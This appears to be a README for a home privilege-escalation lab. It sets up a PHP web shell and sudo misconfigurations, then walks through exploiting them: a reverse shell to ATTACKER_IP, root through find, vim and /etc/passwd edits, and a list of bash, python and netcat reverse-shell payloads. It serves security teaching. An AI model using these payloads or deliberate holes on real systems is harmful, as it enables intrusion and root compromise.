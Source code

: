 # Privilege Escalation Lab - Ubuntu 24

## Overview
This lab demonstrates a complete attack chain from external web exploitation to root privilege escalation through sudo misconfigurations.

**Attack Chain:** External Web → www-data → jason → root

## Lab Setup

### Initial System Setup
```bash
# Create user jason
sudo useradd -m -s /bin/bash jason
sudo passwd jason

# Create test directories
sudo mkdir -p /var/www/test
sudo mkdir -p /home/jason/scripts
sudo mkdir -p /var/www/html
sudo mkdir -p /tmp/backup
```

### Web Vulnerability Setup
```bash
# Install required packages
sudo apt update
sudo apt install -y php apache2 php-cli

# Create vulnerable PHP script
sudo tee /var/www/html/admin.php << 'EOF'
<?php
// Vulnerable admin panel - DO NOT USE IN PRODUCTION
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
} else {
    echo "Admin Panel - Use ?cmd=command";
}
?>
EOF

# Create index page
sudo tee /var/www/html/index.html << 'EOF'
<!DOCTYPE html>
<html>
<head><title>Security Lab</title></head>
<body>
<h1>Security Lab Environment</h1>
<p><a href="admin.php">Admin Panel</a></p>
</body>
</html>
EOF

# Set permissions and start Apache
sudo chown www-data:www-data /var/www/html/*
sudo systemctl start apache2
sudo systemctl enable apache2
```

### www-data → jason Escalation Setup
```bash
# Create sample files for backup
sudo touch /var/www/html/index.html
sudo touch /var/www/html/test.txt
sudo chown www-data:www-data /var/www/html/*
sudo chown www-data:www-data /tmp/backup

# Create escalation script
sudo tee /var/www/test/simple.sh << 'EOF'
#!/bin/bash
echo "Running as: $(whoami)"
/bin/bash
EOF

sudo chown jason:jason /var/www/test/simple.sh
sudo chmod 755 /var/www/test/simple.sh

# Configure sudo for www-data
sudo tee /etc/sudoers.d/www-data << 'EOF'
www-data ALL=(jason) NOPASSWD: /var/www/test/simple.sh
EOF
```

### jason → root Escalation Setup
```bash
# Create multiple sudo misconfigurations for jason
sudo tee /etc/sudoers.d/jason << 'EOF'
jason ALL=(ALL) NOPASSWD: /usr/bin/find /home/jason -name *
jason ALL=(ALL) NOPASSWD: /usr/bin/vim /etc/config.txt
jason ALL=(ALL) NOPASSWD: /bin/cp /home/jason/scripts/*
EOF

# Create config file for vim exploitation
sudo touch /etc/config.txt
sudo chmod 644 /etc/config.txt

# Set up directory structure
sudo mkdir -p /home/jason/scripts
sudo chown jason:jason /home/jason/scripts

# Create exploitation files
sudo -u jason tee /home/jason/scripts/exploit.sh << 'EOF'
#!/bin/bash
/bin/bash
EOF

sudo -u jason chmod +x /home/jason/scripts/exploit.sh
sudo cp /etc/passwd /home/jason/scripts/passwd.bak
sudo chown jason:jason /home/jason/scripts/passwd.bak
```

## Exploitation Guide

### Step 1: External Web Exploitation
```bash
# Test basic command execution
curl "http://TARGET_IP/admin.php?cmd=whoami"

# Get reverse shell (start listener first: nc -nlvp 4444)
curl "http://TARGET_IP/admin.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FATTACKER_IP%2F4444%200%3E%261%27"
```

### Step 2: Upgrade Shell
```bash
# In reverse shell:
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Press Ctrl+Z
# On attacker machine: stty raw -echo; fg
# Press Enter twice, then:
export TERM=xterm
export SHELL=/bin/bash
```

### Step 3: www-data → jason Escalation
```bash
# Check current user
whoami  # Should show www-data

# Check sudo permissions
sudo -l

# Escalate to jason
sudo -u jason /var/www/test/simple.sh
```

### Step 4: jason → root Escalation

#### Method 1: Using find
```bash
sudo find /home/jason -name "anything" -exec /bin/bash \;
```

#### Method 2: Using vim
```bash
sudo vim /etc/config.txt
# In vim, type: :!/bin/bash
```

#### Method 3: Using cp (passwd file manipulation)
```bash
# Create malicious passwd entry
echo 'hacker:$6$salt$hash:0:0:root:/root:/bin/bash' >> /home/jason/scripts/passwd.bak
# Replace $6$salt$hash with actual password hash

# Copy over original passwd
sudo cp /home/jason/scripts/passwd.bak /etc/passwd

# Login as new root user
su hacker
```

## Verification Commands
```bash
# Verify privilege escalation
whoami
id
cat /etc/shadow  # Should work if root
```

## URL Encoding Reference
```
Space: %20
&: %26
>: %3E
<: %3C
': %27
": %22
/: %2F
\: %5C
```

## Common Reverse Shell Payloads
```bash
# Bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'

# Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"]);'

# Netcat
nc -e /bin/bash ATTACKER_IP 4444
```

## Clean Up
```bash
# Remove lab files
sudo rm -rf /var/www/test
sudo rm -f /etc/sudoers.d/www-data
sudo rm -f /etc/sudoers.d/jason
sudo rm -f /var/www/html/admin.php
sudo userdel -r jason
sudo systemctl stop apache2
```

## Security Notes
- This lab is for educational purposes only
- Use only in isolated test environments
- Never deploy these configurations in production
- Always clean up after testing

## Troubleshooting
- If web shell doesn't work, check Apache error logs: `sudo tail -f /var/log/apache2/error.log`
- If sudo doesn't work, verify sudoers syntax: `sudo visudo -c`
- If reverse shell fails, check firewall rules and network connectivity
